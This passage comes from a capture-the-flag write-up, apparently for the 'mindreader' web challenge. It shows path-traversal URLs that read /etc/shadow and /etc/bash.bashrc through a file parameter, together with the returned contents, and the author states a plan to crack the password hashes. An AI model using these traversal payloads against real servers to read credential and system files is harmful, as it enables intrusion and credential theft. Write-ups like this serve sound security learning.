 <p>Great, we got it! But what can we do with it, there's no flag here so we have to keep looking further. I came with idea to grab <b>/etc/shadow</b> and then crack the passwords. </p>

{% highlight html %}
https://mindreader.web.ctfcompetition.com/?f=..%2F..%2F..%2F..%2Fetc%2Fshadow

root:*:17324:0:99999:7:::
daemon:*:17324:0:99999:7:::
bin:*:17324:0:99999:7:::
sys:*:17324:0:99999:7:::
sync:*:17324:0:99999:7:::
games:*:17324:0:99999:7:::
man:*:17324:0:99999:7:::
lp:*:17324:0:99999:7:::
mail:*:17324:0:99999:7:::
news:*:17324:0:99999:7:::
uucp:*:17324:0:99999:7:::
proxy:*:17324:0:99999:7:::
www-data:*:17324:0:99999:7:::
backup:*:17324:0:99999:7:::
list:*:17324:0:99999:7:::
irc:*:17324:0:99999:7:::
gnats:*:17324:0:99999:7:::
nobody:*:17324:0:99999:7:::
systemd-timesync:*:17324:0:99999:7:::
systemd-network:*:17324:0:99999:7:::
systemd-resolve:*:17324:0:99999:7:::
systemd-bus-proxy:*:17324:0:99999:7:::
{% endhighlight %}

<p>But this didn't work out. We have to keep looking further, maybe in the <b>.bashrc</b>? Any clues? </p>

{% highlight html %}
https://mindreader.web.ctfcompetition.com/?f=..%2F..%2F..%2F..%2Fetc%2Fbash.bashrc

# System-wide .bashrc file for interactive bash(1) shells.

# To enable the settings / commands in this file for login shells as well,
# this file has to be sourced in /etc/profile.

# If not running interactively, don't do anything
[ -z "$PS1" ] && return

# check the window size after each command and, if necessary,
# update the values of LINES and COLUMNS.
shopt -s checkwinsize

# set variable identifying the chroot you work in (used in the prompt below)
if [ -z "${debian_chroot:-}" ] && [ -r /etc/debian_chroot ]; then
    debian_chroot=$(cat /etc/debian_chroot)
fi
